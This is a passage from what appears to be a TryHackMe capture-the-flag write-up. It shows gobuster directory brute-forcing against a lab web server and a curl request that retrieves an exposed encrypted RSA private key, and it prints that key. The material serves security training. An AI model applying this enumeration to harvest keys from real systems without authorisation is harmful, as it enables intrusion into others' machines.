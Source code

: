 ```console
[+] Timeout:        10s
===============================================================
2021/02/12 17:09:17 Starting gobuster
===============================================================
/configure (Status: 301)
===============================================================
2021/02/12 17:10:18 Finished
===============================================================
===============================================================

```
## On /web/resources/infoseek/configure/
```console
reddevil@ubuntu:~/Documents/tryhackme/enpass$ gobuster dir -u http://10.10.86.50:8001/web/resources/infoseek/configure/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.86.50:8001/web/resources/infoseek/configure/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/12 17:10:18 Starting gobuster
===============================================================
/key (Status: 200)
===============================================================
2021/02/12 17:12:20 Finished
===============================================================
```

## visiting /web/resources/infoseek/configure/ key
```console
reddevil@ubuntu:~/Documents/tryhackme/enpass/zip$ curl http://10.10.86.50:8001/web/resources/infoseek/configure/key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
9plhOtJX6ZUjtq92E/sinTG0wwc94VmwiA5lvGmjUtBjah4epDJs8Vt/tIpSTg8k
28ef1Q8+5+Kl4alJZWNF0RVpykVEXKqYw3kJBqQDTa4aH75MczJGfk4TY5kdZFO3
tPVajm46V2C/9OrjOpEVg2jIom+e4kJAaJdB7Jr7br3xoaYhe5YEUiSGM8YD7SUZ
................................................................
................................................................
om679j9qdIP7O8m3PK0Wg/cSkjdj0vRxT539tAY1+ci99FXnO1Touo7mlaA4eRTK
LQLmzFcucQODcm3FEy18doT2llDTyloD2PmX+ipzB7mbdqw7pUXPyFTnGZoKrnhM
27L629aKxoM19Mz0xP8BoQMcCOCYklIw1vkaiPgXAYkNXXtBzwWn1SFcU57buaED
CJCnh3g19NZ/VjJ1zERJLjK1U1l/RtlejISAB35AYFUnKDG3iYXLRP3iT/R22BMd
z4uSYN10O1nr4EppAOMtdSdd9PJuwxKN/3nJvymMf3O/MmC/8DJOIyadZzEw7EbP
iU5caghFrCuuhCagiwYr+qeKM3BwMUBPeUXVWTCVmFkA7jR86XTMfjkD1vgDFj/8
-----END RSA PRIVATE KEY-----
```
We get a encrpyted private key.
